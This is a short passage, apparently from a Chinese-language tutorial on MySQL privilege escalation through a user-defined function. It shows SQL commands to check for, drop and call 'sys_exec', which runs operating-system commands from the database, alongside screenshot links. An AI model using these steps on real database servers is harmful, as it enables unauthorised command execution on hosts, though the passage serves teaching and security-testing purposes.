 - 验证

```
select * from mysql.func where name = 'sys_exec';
```

![](https://ae01.alicdn.com/kf/H4686105bc9b24c8dbbca57ca744a9ec4W.jpg)

- 删除

```
drop function sys_exec;
```

- 执行

```
select sys_exec('cmd');
```

![](https://ae01.alicdn.com/kf/H35996863ea5f4319930172b9924440f4D.jpg)


